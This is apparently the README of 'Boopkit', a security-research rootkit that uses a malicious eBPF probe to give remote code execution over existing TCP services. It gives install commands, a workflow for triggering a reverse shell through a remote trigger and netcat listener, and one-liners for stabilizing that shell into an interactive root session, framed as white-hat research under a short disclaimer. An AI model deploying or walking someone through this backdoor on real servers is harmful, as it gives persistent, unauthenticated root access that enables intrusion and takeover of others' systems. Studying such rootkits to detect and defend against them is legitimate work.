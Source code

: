 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe.

### Disclaimer

I am a professional security researcher. These are white hat tools used for research purposes only.

Seriously please use these responsibly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: Kubernetes, SSH, nginx, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
cd remote
# edit ./emote as needed
./remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy the root shell over unauthenticated TCP. 

# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

### Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. 

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

Source: [jasonturley.xyz](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)
